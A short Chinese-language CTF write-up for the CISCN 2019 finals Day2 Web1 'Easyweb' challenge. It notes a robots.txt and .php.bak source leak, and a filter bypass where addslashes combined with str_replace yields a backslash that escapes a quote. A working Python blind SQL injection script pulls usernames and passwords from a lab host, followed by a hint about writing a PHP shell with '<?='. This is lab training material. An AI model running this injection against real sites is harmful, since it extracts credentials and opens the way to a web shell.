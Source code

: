 # WP
[[CISCN2019 总决赛 Day2 Web1]Easyweb](https://www.jianshu.com/p/e0e59ed2d6d2)
# 知识点
信息泄露 robots.txt    *.php.bak<br />sql注入  通过`addslashes`和`$id=str_replace(array("\\0","%00","\\'","'"),"",$id);`巧妙制造出`\`来转义`'`从而实现闭合。
```python
import time
import requests

url = 'http://b9f6ddb6-bb4e-48eb-857d-cc1a37b355d8.node4.buuoj.cn:81/image.php'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        # print(min, max, j)
        if(min == j):
            str += chr(j)
            print(str)
            break

        payload = fr"?id=\0&path=%20or%20if(ascii(substr((select%20group_concat(username,0x7e,password)%20from%20users),{i},1))<{j},1,0)%23"

        time.sleep(0.3)
        r = requests.get(url=url+payload).content
        # print(len(r))
        if len(r) > 0:
            max = j
        else:
            min = j
```
写入shell，`<?php`改为`<?=`
